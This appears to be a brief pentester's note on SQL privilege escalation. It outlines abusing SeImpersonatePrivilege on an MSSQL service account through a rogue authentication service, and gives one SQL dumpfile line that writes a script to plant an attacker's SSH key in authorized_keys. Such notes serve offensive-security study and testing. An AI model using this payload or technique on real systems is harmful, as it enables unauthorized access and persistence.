 # SQL Privilege Escalation
## Token exploitation
A new instance of SQL is running as `NT Service\MSSQL$SQLEXPRESS` (default). This user has a special type of privilege called `SeImpersonatePrivilege`.
This allows the account to "impersonate a client after authentication".

Check if the privilege has been assigned:
[[Seatbelt#Get TokenPrivileges]]

In a nutshell, this privilege allows the user to impersonate a token that it's able to get a handle to.

The Problem:  
Account is not a local admin and can't get a handle to higher-privileged processes.

The Solution:
Force a SYSTEM service to authenticate to a man-in-the-middle service that the attacker creates. This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

## Authorized keys
Create authorized_keys via .sh file created via dumpfile
```bash
select "echo 'ssh-rsa xxxx' >> /home/ubuntu/.ssh/authorized_keys" into dumpfile "/var/lib/mysql/come_in.sh";
```


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```